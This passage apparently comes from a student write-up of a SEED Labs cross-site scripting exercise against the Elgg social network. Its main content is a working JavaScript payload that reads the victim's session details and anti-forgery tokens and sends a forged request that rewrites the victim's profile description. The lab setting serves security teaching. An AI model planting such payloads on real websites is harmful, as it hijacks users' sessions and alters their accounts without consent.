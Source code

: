 ![Edit About Me Request](images/lab5/lab5_10.png)

We can exploit this vulnerability with the following malicious code:

```html
<script type="text/javascript">
  window.onload = function () {
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    // and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // Construct the content of your URL.
    var content =
      token +
      ts +
      userName +
      "&description=" +
      "Samy altered your description." +
      "&accesslevel[description]=2" +
      guid;

    var samyGuid = 59;
    var sendurl = "http://www.seed-server.com/action/profile/edit";

    if (elgg.session.user.guid != samyGuid) {
      // Create and send Ajax request to modify profile
      var Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```
